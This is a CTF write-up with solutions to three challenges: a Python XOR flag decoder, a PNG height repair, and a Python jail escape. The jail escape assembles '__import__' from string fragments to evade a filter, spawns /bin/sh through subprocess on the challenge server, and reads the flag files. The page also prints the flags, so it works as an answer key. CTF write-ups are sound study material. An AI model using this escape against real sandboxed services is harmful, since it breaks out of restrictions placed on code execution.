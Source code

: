 ## 0v3r_easy
```py
byte_403020 = [57, 72, 46, 75, 42, 3, 1, 29, 11, 39, 12, 16, 17, 11, 39, 17, 11, 39, 26, 25, 11, 17, 27, 39, 0,23, 10, 39, 8, 10, 23, 26, 5, 31]
flag = []
for i in range(33):
    flag.append(chr(120 ^ byte_403020[i]))
print(''.join(flag))
```

`A0V3R{yes_this_is_basic_xor_prob}`

## PPNG

height를 `0x200`으로 바꾸고 https://online.officerecovery.com/pixrecovery 온라인 툴에 넣고 돌렸다.

![](./ppng.png)

`A0V3R{Funny!!_M1SC_CS1M!!!}`

## pyjail_revenge
```
 junhoyeo@juno-4  ~/Downloads/Kawai_SuzukazeAoba  nc 45.32.254.239 7778
Last pyjail was too ez, isn't it?
So I will give you one more question.
It'll be quite tricky.
Give it a try!
 > __builtins__.__dict__['__im''port__']('subprocess').call(['/bin/sh','-s'])
cat home/flag
cat: home/flag: No such file or directory
cd home
cat pyjail2/flag
A0V3R{na.hwa.nat.da}
cat main.py
```
